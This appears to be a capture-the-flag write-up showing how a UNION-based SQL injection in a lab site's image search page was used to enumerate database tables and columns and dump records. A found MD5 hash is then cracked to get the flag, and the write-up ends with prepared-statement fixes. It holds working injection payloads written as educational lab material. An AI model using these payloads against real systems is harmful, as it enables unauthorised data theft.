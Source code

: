 # 06 - SQL Injection Images

## Reproduce

We found an SQL Injection in image search page: `http://{IP}/?page=searchimg`

- Get the database name: `1 UNION SELECT 1, database()`
  ===> `Member_images`

- Get the table name: `1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,105,109,97,103,101,115)`
  ===> `list_images`

- Get columns name: `1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,105,109,97,103,101,115) AND TABLE_NAME = char(108,105,115,116,95,105,109,97,103,101,115)`
  ===>
  `{ 'id', 'url', 'title', 'comment' }`

- Let's list the `title + comment` of all the images :
  `1 UNION SELECT title,comment FROM list_images`

In the comment of 'Hack me ?' we found this:
`If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

And that what we did :)

- Decode 1928e8083cf461a51303633093573c46 with MD5 ==> 'albatroz'
- Encode 'albatroz' using Sha256 ==> Tadaaaaaa flag

## Explanation of the vulnerability

SQL injection: is a code injection technique that might destroy your database.

## Fix

- Use of Prepared Statements (with Parameterized Queries) for example in :
  - JAVA EE use: PreparedStatement() with bind variables.
  - PHP use: PDO (PHP Data Object) with strongly typed parameterized queries.
- Don't construct queries with user input whithout verifications.
